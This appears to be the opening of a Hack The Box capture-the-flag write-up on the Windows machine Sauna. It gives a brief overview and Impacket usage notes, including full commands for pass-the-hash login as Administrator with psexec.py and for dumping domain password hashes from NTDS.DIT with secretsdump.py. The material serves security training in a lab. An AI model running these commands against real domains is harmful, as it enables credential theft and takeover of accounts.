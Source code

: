 ```yaml
---
description: >-
  Zweilosec's writeup on the easy-difficulty Windows machine Sauna from
  https://hackthebox.eu
---
```


# HTB - Sauna

## Overview

![](../../.gitbook/assets/1-sauna-infocard.png)

A fairly easy Windows machine that requires a little 'outside the box' thinking in order to get the initial foothold.  After that, simple enumeration will give everything else that is needed.

## Useful Skills and Tools

### Useful [Impacket](https://github.com/SecureAuthCorp/impacket) Scripts

#### psexec.py

* You can use `psexec` to pass-the-\(NT\)hash to get system privileges.  A valid administrator account username and hash are needed.
* `sudo python3 psexec.py -hashes :<password_hash> Administrator@10.10.10.175` 

#### secretsdump.py

* Use this to dump password hashes from `NTDS.DIT` from a domain server.  Requires valid user credentials.  
* `python3 ./secretsdump.py <domain_name>/<username>@10.10.10.175` 
* Adding the flag `-just-dc-ntlm` will make it dump only the Lanman and NT hashes.
